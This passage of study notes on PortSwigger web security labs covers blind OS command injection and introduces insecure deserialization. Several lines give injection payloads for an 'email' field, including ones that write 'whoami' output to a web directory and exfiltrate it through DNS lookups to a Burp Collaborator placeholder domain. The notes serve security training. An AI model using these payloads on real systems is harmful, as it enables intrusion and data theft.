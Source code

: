 	    `email=||whoami>/var/www/images/output.txt||`
	
	Modify the `filename` parameter, changing the value to the name of the file you specified for the output of the injected command:
    
    filename=output.txt

	Lab 04: # Blind OS command injectionhttps://portswigger.net/web-security/os-command-injection with out-of-band interaction

	Technique : 
	The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.
	To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.
		
	Exploit:
		- Modify the `email` parameter, changing it to:
    
    `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
	- Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `email` parameter.
	

	Lab 05: # # Blind OS command injectionhttps://portswigger.net/web-security/os-command-injection with out-of-band data exfiltration

	Technique : 
	The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

	To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.
		
	Exploit:
		- Modify the `email` parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:
    
	    ``email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||``



 4) Insecure Deserialization:
	    Insecure Deserialization is a process of converting a malicious code using serialization then send to store it in a database and when deserialization process it will deserialized the object into the target system. Basically a remote code execution attacker sends the malicious code as a serialized object and it will deserialized object run in targeted systems.

		Serialized object -> file -> database -> Deserialized object.

	What can happen? - Insecure deserialization 

		1) Remote Code Execution => Deserialization of adversary-controlled code
		2) Authorization Bypass => Deserialization of payload with Elevation of   Previlege Payload.
	  
	  Serialization and Deserialization:
		  1) Serialization :
			  Serialization is a process of converting objects in to stream of bytes (string) to share and store it in a database that stream of bytes  into a network then it will be used in other application's structure later (python objects, node objects).
	     2)Deserialization : (Reverse of Serialization)
		     Deserialization is a process of converting stream of Bytes to objects from the database or a file to web application using some object structure like(JSON, Python Objects, Node Objects). 
	
